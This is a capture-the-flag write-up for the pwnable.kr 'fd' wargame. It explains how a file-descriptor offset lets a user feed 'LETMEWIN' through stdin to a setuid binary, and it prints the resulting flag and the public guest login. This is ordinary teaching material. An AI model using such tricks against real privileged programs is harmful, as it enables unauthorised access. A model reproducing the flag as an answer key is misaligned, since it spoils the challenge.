 # fd

## Description

```Text
Mommy! what is a file descriptor in Linux?

* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link:
https://youtu.be/971eZhMHQQw

ssh fd@pwnable.kr -p2222 (pw:guest)
```

## Analysis

```Shell
$ ssh fd@pwnable.kr -p2222
fd@pwnable.kr's password:
...

Last login: Sun Jun  6 02:43:55 2021 from 111.252.186.121
fd@pwnable:~$ ls -l
total 16
-r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
-r--r----- 1 fd_pwn root   50 Jun 11  2014 flag
fd@pwnable:~$
```

Without the permission to the flag, let’s take a look at the source:

```C
// fd.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

We know that `fd` is an abbreviation for file descriptor, and there are 3 file descriptors: `stdin`, `stdout`, `stderr`.

Give the program `4660` to get `fd = 4660 - 4660 = 0`,  which represents `stdin`.

Instead of printing `learn about Linux file IO`, it’s reading our input –> `len = read(fd, buf, 32);`.

Make `buf = “LETMEWIN”` to execute the first if condition and we can get the flag: `mommy! I think I know what a file descriptor is!!`. 

## Solution

Write-up: [exploit.py](exploit.py).

```Shell
$ python3 pwnable.kr/fd/exploit.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './fd' on pwnable.kr: pid 333931
[+] Receiving all data: Done (62B)
[*] Stopped remote process 'fd' on pwnable.kr (pid 333931)
[+] good job :)
    mommy! I think I know what a file descriptor is!!
$
```

## Point

File descriptors simply are indicators or handles used to access a file or i/o (input/output) resource. File descriptors are represented in `C` as integers and there are 3 types of file descriptors:

- `stdin`, its integer value is `0`
- `stdout`, its integer value is `1`
- `stderr`, its integer value is `2`
